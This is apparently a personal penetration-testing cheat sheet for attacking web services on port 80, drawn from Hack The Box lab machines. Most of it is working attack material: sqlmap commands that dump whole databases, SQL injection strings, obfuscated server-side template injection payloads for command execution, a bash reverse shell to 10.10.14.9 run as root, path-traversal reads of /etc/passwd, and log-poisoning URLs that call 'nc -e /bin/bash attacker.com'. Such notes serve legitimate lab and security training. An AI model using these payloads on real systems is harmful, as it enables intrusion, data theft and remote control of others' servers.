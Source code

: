 ```yaml
---
title: Port 80 - HTTP
draft: false
tags:
  - http
  - directory-bruteforce
  - wappalyzer
  - subdomain-bruteforce
  - lfi
  - sqli
---
```

## Directory Bruteforce

Perform directory bruteforce as such:

`sudo feroxbuster -u http://10.10.10.84 -n -x php -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

![](https://i.imgur.com/lzQ8C4L.png)


Check what extensions webpage is using by accessing such file as **index.php** or **index.html**.

Set appropriate extension with **-x** flag.

When on Windows machine -> Use lower case directory list.

When on IIS machine -> Use IIS specific wordlist.

## Subdomain Bruteforce

Perform Subdomain bruteforcing and add newly discovered subdomains to **/etc/hosts**:

`gobuster vhost -u http://analytical.htb --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -o gobuster-vhost`


## SQLi

### SQLmap

`sqlmap -r admin-cronos-htb-login-req.txt --batch`

![](https://i.imgur.com/cZPXbyU.png)

I can dump the whol database:

`sqlmap -r req.txt --dbs --batch --dump`

![](https://i.imgur.com/b5os4DF.png)

Instead of dumping the entire database, I can also specify the dump using the commands below:

`sqlmap -r req.txt -D main --tables --batch`

![](https://i.imgur.com/j02GNFt.png)


`sqlmap -r req.txt --dbs --batch -D main -t user --dump`


![](https://i.imgur.com/EmCUyEV.png)


### Manual Testing

Example:

```sql
' or 1=1-- -
OR 1=1;-- -
```

## SSTI

Follow [this list of payloads](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssti.txt) to attempt on advanced SSTI.

try injecting alert script and see if the web app is actually reading the script:

![](https://i.imgur.com/jIF0Q5e.png)


Now on the browser, it confirms SSTI vulnerability.

![](https://i.imgur.com/eXv2drC.png)



Trying with `{{7*7}} = {{7*7}}` shows **49=49**:

![](https://i.imgur.com/V5lo0o3.png)


Using the command below, I can execute command `id`:

```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

![](https://i.imgur.com/P3Nmx7H.png)



Using the command below I can list files in current directory:

```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

![](https://i.imgur.com/9FgzGBT.png)


Using the command below, I can spawn a reverse shell as **root**:

```bash
{{config.__class__.__init__.__globals__['os'].popen('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.9/1337 0>&1"').read()}}
```

![](https://i.imgur.com/zXdSn9l.png)


## LFI

`http://10.10.10.84/browse.php?file=../../../../../../../etc/passwd`

![](https://i.imgur.com/0bnt99B.png)

### Examples

```
http://example.com/index.php?page=/etc/passwd&cmd=id
http://example.com/index.php?page=/var/log/apache/access.log&cmd=nc%20-e%20/bin/bash%20attacker.com%204444
http://example.com/index.php?page=php://input&cmd=cat%20/etc/passwd
```
